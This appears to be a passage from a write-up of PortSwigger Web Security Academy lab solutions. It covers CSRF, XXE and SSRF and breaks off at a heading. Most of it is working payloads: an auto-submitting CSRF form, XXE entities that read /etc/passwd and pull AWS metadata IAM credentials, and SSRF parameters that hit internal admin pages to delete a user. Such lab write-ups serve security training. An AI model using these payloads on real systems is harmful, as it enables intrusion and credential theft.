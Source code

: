 Go to the change-email page of any user and copy the anti-CSRF token.
```html
<form action="https://ac191f8e1e8ec426807e10500120007f.web-security-academy.net/email/change-email" method="POST" id="myForm">
<input name="email" value="blah">
<input name="csrf" value="m2NgsCKWkrWIr7BhsoHIL2aO84QW79FK">
</form>

<script>
document.getElementById("myForm").submit();
</script>
```

## XXE
#### Exploiting XXE using external entities to retrieve files

```xml
<?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId></storeId>
    </stockCheck>
```

#### Exploiting XXE to perform SSRF attacks

```xml
<?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin">]>
    <stockCheck>
        <productId>&xxe;</productId>
        <storeId></storeId>
    </stockCheck>
```

## SSRF

#### Basic SSRF against the local server

- First change the request parameter to: `stockApi=http://localhost/admin`
- Then `stockApi=http://localhost/admin/delete?username=carlos`

#### Basic SSRF against another back-end system

- First run [this](ssrf/ssrf-ipscan.py) script to get the IP of the backend system.
- Then change the request parameter as follows: `stockApi=http://192.168.0.203:8080/admin`
- Finally to delete a user: `stockApi=http://192.168.0.203:8080/admin/delete?username=carlos`

#### SSRF with blacklist-based input filter
